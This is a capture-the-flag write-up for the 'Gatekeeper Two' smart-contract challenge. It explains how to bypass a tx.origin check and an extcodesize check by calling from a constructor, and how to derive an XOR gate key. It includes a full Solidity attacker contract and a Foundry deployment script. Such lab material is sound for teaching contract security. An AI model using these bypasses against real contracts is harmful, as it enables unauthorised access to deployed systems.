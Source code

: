 # Gatekeeper Two

This challenge is similar to the previous one where we needed to become registered as an entrant. We need to pass through three modifiers. Let's analyze each one:

```solidity
modifier gateOne() {
    require(msg.sender != tx.origin);
    _;
}
```

The first modifier is identical to the previous challenge - we can bypass it by calling the function through a smart contract.

```solidity
modifier gateTwo() {
    uint256 x;
    assembly {
        x := extcodesize(caller())
    }
    require(x == 0);
    _;
}
```

The second modifier uses assembly to check the code size of the function caller, requiring it to be zero. This seems tricky since we need to use a smart contract (which typically has code) to bypass the first gate. However, there's a solution: calling the function from within the constructor of our smart contract makes this possible, as during construction the code size is indeed zero. More details can be found [here](https://www.rareskills.io/post/solidity-code-length).

```solidity
modifier gateThree(bytes8 _gateKey) {
    require(uint64(bytes8(keccak256(abi.encodePacked(msg.sender)))) ^ uint64(_gateKey) == type(uint64).max);
    _;
}
```

The third modifier checks if the `_gateKey` meets a specific condition using XOR operations. We need to find a `_gateKey` that, when XORed with a hash of the `msg.sender`, equals `type(uint64).max`.

We can leverage a key property of XOR operations:
- If A ⊕ B = C, then A ⊕ C = B

This property works because XOR is:
1. Reversible
2. Linear

This makes XOR operations useful in many applications but potentially insecure in cryptography if used improperly, as knowing either input or output can reveal the other value. Learn more about XOR [here](https://ctf101.org/cryptography/what-is-xor/) and [here](https://en.wikipedia.org/wiki/XOR_cipher).

We can calculate the required `_gateKey` using:

```solidity
bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
```

## Solution Implementation

Here's the complete solution:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity 0.8.20;

contract Solving {
    constructor(address _victim) {
        bytes8 gateKey = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ type(uint64).max);
		(bool success,) = _victim.call(abi.encodeWithSignature("enter(bytes8)", gateKey));
		require(success);
    }
}
```

And the deployment script:

```solidity
//SPDX-License-Identifier: MIT
pragma solidity ^0.8.20;

import {Solving} from "src/Solving.sol";
import {Script} from "forge-std/Script.sol";

contract SolvingScript is Script {
    address victim = ; /* Your instance address */
    Solving solving;

    function run() public {
        vm.startBroadcast();
        solving = new Solving(victim);
        vm.stopBroadcast();
    }
}
```